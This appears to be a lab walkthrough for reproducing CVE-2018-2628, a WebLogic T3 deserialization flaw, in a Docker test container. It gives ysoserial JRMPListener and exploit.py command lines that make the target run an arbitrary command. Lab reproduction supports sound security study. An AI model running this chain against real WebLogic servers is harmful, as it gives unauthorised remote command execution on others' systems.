

# Weblogic WLS Core Components Deserialization Command Execution Vulnerability (CVE-2018-2628)

Oracle's April 2018 patch fixes a deserialization vulnerability (CVE-2018-2628) that appears in Weblogic Server WLS Core Components, which is triggered by the t3 protocol, which can cause unauthorized users to execute arbitrary commands on remote servers. .

Reference link:

- http://www.oracle.com/technetwork/security-advisory/cpuapr2018-3678067.html
- https://github.com/brianwrf/CVE-2018-2628
- http://mp.weixin.qq.com/s/nYY4zg2m2xsqT0GXa9pMGA

## vulnerability environment

Run the following command to start Weblogic 10.3.6.0:

```
Docker-compose up -d
```

Wait for the environment to start (environmental differences, some machines may wait longer), visit `http://your-ip:7001/console` to initialize the entire environment.

## Vulnerability recurrence

Refer to [brianwrf/CVE-2018-2628] (https://github.com/brianwrf/CVE-2018-2628), first download ysoserial, and start a JRMP Server:

```
Java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
```

Among them, `[command]` is the command I want to execute, and `[listen port]` is the port that JRMP Server listens to.

Then, use the [exploit.py](https://www.exploit-db.com/exploits/44553/) script to send the packet to the target Weblogic (`http://your-ip:7001`):

```
Python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
```

Among them, `[victim ip]` and `[victim port]` are the IP and port of the target weblogic, `[path to ysoserial]` is the path of the local ysoserial, `[JRMPListener ip]` and `[JRMPListener port]` Start the IP address and port of the JRMP Server in one step. `[JRMPClient]` is a class that executes JRMPClient. The optional value is `JRMPClient` or `JRMPClient2`.

After the exploit.py is executed, execute `docker-compose exec weblogic bash` into the container and you can see that /tmp/success has been successfully created.

